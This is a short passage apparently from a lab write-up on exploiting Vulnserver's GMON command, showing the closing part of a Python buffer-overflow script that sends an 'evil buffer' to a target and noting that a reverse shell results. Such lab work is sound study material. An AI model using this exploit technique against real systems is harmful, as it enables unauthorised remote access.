 ```python

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# shift + f9

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```

After passing the exception we receive a reverse shell:

![Reverse Shell](/assets/img/vulnserver_gmon_70_revshell.png)
